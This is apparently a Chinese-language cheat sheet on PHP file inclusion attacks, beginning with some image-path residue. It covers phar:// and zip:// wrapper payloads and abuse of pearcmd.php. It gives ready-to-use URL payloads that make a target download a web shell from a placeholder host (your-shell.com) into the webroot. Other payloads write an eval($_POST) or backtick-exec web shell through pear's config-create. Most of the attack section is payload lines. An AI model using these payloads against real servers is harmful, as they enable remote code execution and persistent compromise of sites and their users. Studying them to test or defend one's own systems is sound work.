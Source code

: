 phar://

- [访问参数] ?file=phar://zip.zip/phpinfo
- [拼接后]  ?file=phar://zip.zip/phpinfo.txt

Example：
(我的环境根目录中有php.zip压缩包，内含phpinfo.txt，其中包含代码)）
所以分别构造payload为：

?file=zip://D:\PHPWAMP_IN3\wwwroot\php.zip%23phpinfo
![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681053475156-a0577dc2-86e8-409c-b586-0810f3101a26.png#id=sLJiL&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
?file=phar://../../php.zip/phpinfo
![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681053475177-4a09fcb3-1ac8-4bda-ae83-27febc4c078c.png#id=j5G5Q&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

# pear文件包含

利用条件
1：有文件包含点
2：开启了pear扩展
3：配置文件中register_argc_argv设置为On，而默认为Off

PEAR是为PHP扩展与应用库(PHP Extension and Application Repository)，它是一个PHP扩展及应用的一个代码仓库，类似于composer，用于代码的下载与管理。默认安装位置：/usr/local/lib/php

那么这个register_argc_argv能干什么呢？简言之，可以通过$_SERVER['argv']获得命令行参数，其中以+作为分隔符

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1678720220868-8dcf4156-e7ef-410d-aa28-c088678d09dc.png#id=yrOm5&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在pear目录下有一个pearcmd.php，是pear命令调用的文件，是用来管理依赖的，类似python的pip。能包含它又能给参数的话，就可以用它来写木马了

## 靶机出网

远程文件下载

命令行语法：`pear install -R /tmp http://vps/shell.php`

用install会下载到/tmp/pear/download/目录下，用download会下载到当前目录，当然也可以用-R指定目录

```python
/?file=/usr/local/lib/php/pearcmd.php&+install+http://your-shell.com/shell.php
/?file=/usr/local/lib/php/pearcmd.php&+install+-R+/var/www/html/+http://your-shell.com/shell.php
/?file=/usr/local/lib/php/pearcmd.php&+download+http://your-shell.com/shell.php
```

## 靶机不出网

写shell

```python
/?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[a])?>+/tmp/shell.php
/?file=/usr/local/lib/php/pearcmd.php&aaaa+config-create+/var/www/html/<?=`$_POST[a]`;?>+1.php
```

生成配置文件，配置项传入我们恶意的php代码
